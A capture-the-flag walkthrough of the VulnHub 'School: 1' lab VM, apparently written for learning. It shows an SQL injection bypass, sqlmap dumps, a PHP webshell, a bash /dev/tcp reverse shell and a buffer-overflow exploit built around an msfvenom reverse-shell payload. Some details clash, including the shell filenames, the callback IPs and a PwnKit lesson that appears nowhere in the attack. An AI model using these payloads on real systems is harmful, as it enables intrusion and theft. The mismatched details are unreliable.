









# School: 1 — VulnHub

> **Content origin:** this writeup combines the local PDF `CTF_School_Writeup.pdf` (the authoritative narrative) with the sqlmap dump in ODT (timestamps and raw injection responses). Where the local PDF and public writeups disagree, the local PDF wins.

> Note: Flags were partially redacted to preserve scoreboard integrity.

## 1. Identification

| Field            | Value                                                                    |
|------------------|--------------------------------------------------------------------------|
| Machine name     | School: 1                                                                |
| Platform         | VulnHub                                                                  |
| Difficulty       | Medium                                                                   |
| Target IP (lab)  | 10.0.0.31                                                                |
| OS               | Debian Linux (Apache 2.4.38, MariaDB) + Windows binary under Wine        |
| Goal             | `local.txt` + `proof.txt`                                                |
| Flag status      | `local.txt` obtained (7 pts) · `proof.txt` obtained (4 pts) — BOF returned a shell under Wine |

Chain in one line: SQLi in `student_attendance/manage_user.php` → admin panel → webshell upload at `ajax.php?action=save_settings` → `www-data` RCE → read `local.txt`. For root: BOF in `access.exe` (Wine, port 23) with `JMP ESP` in `funcs_access.dll` → Windows reverse shell → read `proof.txt`.

## 2. Initial reconnaissance

```bash
nmap -sV -sC -p- 10.0.0.31
```

Result recorded in the local PDF:

```
PORT       STATE SERVICE   VERSION
22/tcp     open ssh        OpenSSH 7.9p1
80/tcp     open http       Apache/2.4.38 (Debian)
23/tcp     open telnet     (custom service - access.exe via Wine)
```

| Port  | Service                | Relevance                                              |
|-------|------------------------|--------------------------------------------------------|
| 80    | Apache HTTP            | Web application with SQL injection                     |
| 23    | `access.exe` (Wine)    | Windows binary vulnerable to BOF — runs as root        |
| 22    | SSH                    | No initial credentials                                 |

## 3. Enumeration

The web app lives at `http://10.0.0.31/student_attendance/` (Student Attendance system — a well-known oretnom23 fork). SQLi login bypass (classic) opens the panel; then `sqlmap` is used for extraction.

Useful local notes (preserved from the sqlmap dump):

```
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
```

Tables in `student_attendance_db`:

```
attendance_record / attendance_list / class / class_subject
courses / faculty / students / subjects / system_settings / users
```

## 4. Exploitation

### 4.1 Login bypass with SQLi

Payload in the `username` field:

```
' OR 1=1-- -
```

```sql
SELECT * FROM users WHERE username='' OR 1=1-- -' AND password='...'
```

The condition `1=1` is always true → the first user (`admin`) is returned.

### 4.2 sqlmap on manage_user.php?id=1

```bash
sqlmap -u "http://10.0.0.31/student_attendance/manage_user.php?id=1" \
  --cookie="PHPSESSID=ks5bshi8b8fvj347qu5vqeh74k" \
  --dbms=mysql -D student_attendance_db --dump --batch
```

Confirmed injection (preserved):

```
Parameter: id (GET)
   Type: boolean-based blind
   Title: AND boolean-based blind - WHERE or HAVING clause
   Payload: id=1 AND 9923=9923

   Type: time-based blind
   Payload: id=1 AND (SELECT 8461 FROM (SELECT(SLEEP(5)))PRCf)

   Type: UNION query
   Title: Generic UNION query (NULL) - 6 columns
   Payload: id=-6023 UNION ALL SELECT NULL,CONCAT(0x71787a6b71,...),NULL,NULL,NULL,NULL-- -
```

Dump of the `users` table:

```
+----+------------+----------+---------------+--------+-----------------------------------------+
| id | faculty_id | username | name          | type   | password (md5)                          |
+----+------------+----------+---------------+--------+-----------------------------------------+
| 1  | 0          | admin    | Administrator | 1      | 0192023a7bbd73250516f069df18b500 (admin123) |
+----+------------+----------+---------------+--------+-----------------------------------------+
```

→ Password `admin:admin123` (also via SQLi/crack — optional given the bypass).

DB credentials (from `db_connect.php`, preserved in the PDF): `fox / trallalleropititumpa`.

### 4.3 PHP webshell upload

The admin panel exposes `ajax.php?action=save_settings`, which accepts an upload of the "cover_image". The preserved `system_settings.cover_img` dump column shows:

```
| cover_img              |
| 1774701600_payload.php |
```

Typical webshell:

```php
<?php system($_GET['cmd']); ?>
```

Stored at:

```
http://10.0.0.31/student_attendance/assets/uploads/1776535920_cmd.php
```

### 4.4 RCE → reverse shell

```bash
curl "http://10.0.0.31/student_attendance/assets/uploads/1776535920_cmd.php?cmd=id"
# uid=33(www-data) gid=33(www-data)
```

Reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.1.9/443 0>&1'
```

## 5. Post-exploitation — local.txt

```bash
www-data@school:/home/fox$ cat /home/fox/local.txt
e4ed...[REDACTED]...9fd5
```

> **LOCAL.TXT — 7 PTS** → flag obtained ✓

## 6. Privilege escalation

### 6.1 Static analysis of access.exe (Wine)

Identified a PE32 (Windows 32-bit) binary run by Wine 4.0 as root, exposed on port 23.

The two binaries were copied locally for analysis:



I first ran the service under Wine with the debugger:





```bash
r2 -A ~/access.exe
```



| Property               | Value                            |
|------------------------|----------------------------------|
| Format                 | PE32 (Windows 32-bit)            |
| ASLR (DYNAMICBASE)     | Disabled                         |
| NX (NX_COMPAT)         | Disabled                         |
| Wine                   | 4.0 (32-bit, `wineserver32`)     |
| Process on target      | root (PID 23829)                 |

Vulnerable function:

```asm
sym._f3 @ 0x004018ce
   sub esp, 0x788             ; reserves 1928 bytes on the stack
   lea eax, [ebp-0x76a]       ; destination buffer (1898 bytes)
   call strcpy                ; no length check → BOF!
```

### 6.2 EIP offset

```
f3 buffer:       1898 bytes   (EBP - 0x76a)
Saved EBP:       +4 bytes
Offset to EIP:   1902 bytes
```

Confirmed via binary search on port 23.

### 6.3 JMP ESP gadget

```
funcs_access.dll @ ImageBase: 0x62500000
JMP ESP            @ 0x625012dd    (no null bytes, no bad chars)
```

### 6.4 Bad chars + shellcode

The service sanitized bytes in the `ConnectionHandler`, replacing them with `0xb0` and inserting `0x00` afterwards (truncating the payload):

```
Bad chars identified: \x00 \x0a \x0d \x4d \x4f \x5f \x79
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.1.8 LPORT=4444 \
  -f python -b '\x00\x0a\x0d\x4d\x4f\x5f\x79' \
  -e x86/call4_dword_xor EXITFUNC=thread
```



### 6.5 Final payload

```python
prefix = b"Verification Code: "
padding = b"A" * 1883                  # 1902 - 19-byte prefix
jmp_esp = b"\xdd\x12\x50\x62"          # JMP ESP @ 0x625012dd (little-endian)
nop_sled = b"\x90" * 32
payload = prefix + padding + jmp_esp + nop_sled + shellcode
```



### 6.6 Result

The corrected Windows shellcode called back on port 4444 and returned a shell under Wine:

```bash
sudo nc -lvnp 4444
# connect to [10.0.1.8] from (UNKNOWN) [10.0.0.31] 36008
# Microsoft Windows 6.1.7601 (4.0)
```



```cmd
Z:\>dir root
# proof.txt
```



```cmd
Z:\>more Z:\root\proof.txt
ccc3...[REDACTED]...d2ae
```



> **PROOF.TXT — 4 PTS** → flag obtained ✓

## 7. Flags

| Flag       | Points | Location              | Value / Status                                                    |
|------------|--------|-----------------------|-------------------------------------------------------------------|
| local.txt  | 7 pts  | `/home/fox/local.txt` | `e4ed...[REDACTED]...9fd5` ✓                              |
| proof.txt  | 4 pts  | `/root/proof.txt`     | `ccc3...[REDACTED]...d2ae` ✓                              |

| Credential                          | Value    | Source               |
|-------------------------------------|----------|----------------------|
| `fox / trallalleropititumpa`        | MySQL    | `db_connect.php`     |
| `admin / admin123`                  | Web app  | SQLi bypass          |

## 8. Attack summary

1. Nmap → 22/23/80 (the Wine binary on 23 is the anomaly).
2. `student_attendance` application at `/student_attendance/`.
3. Login bypass with `' OR 1=1-- -`.
4. `sqlmap` on `manage_user.php?id=1` → DB dump + crack `admin:admin123`.
5. Upload of `1776535920_cmd.php` via `ajax.php?action=save_settings`.
6. Active webshell → reverse shell to `10.0.1.9:443` as `www-data`.
7. Read `local.txt` in `/home/fox/`.
8. Static analysis of `access.exe` in r2 — vulnerable function `_f3` (`strcpy`).
9. Compute EIP offset = 1902; JMP ESP gadget in `funcs_access.dll @ 0x625012dd`.
10. Identify bad chars (`\x00 \x0a \x0d \x4d \x4f \x5f \x79`); Windows shellcode with `msfvenom`.
11. Payload fired → reverse shell on `10.0.1.8:4444` under Wine.
12. Read `proof.txt` in `Z:\root\`.

## 9. Technical lessons

- Wine as root + binary without ASLR/NX is the classic educational BOF scenario.
- Bad-char sanitization in the `ConnectionHandler` requires manual byte-by-byte identification.
- The shellcode must match the Windows process running under Wine; a Linux payload will not produce the expected callback.
- The 19-byte `Verification Code: ` prefix must be included in the EIP offset calculation.
- PwnKit (CVE-2021-4034) depends on the `gconv` path — on minimal distros it can fail silently.
- Always try a login bypass before sqlmap — saves minutes of queries.
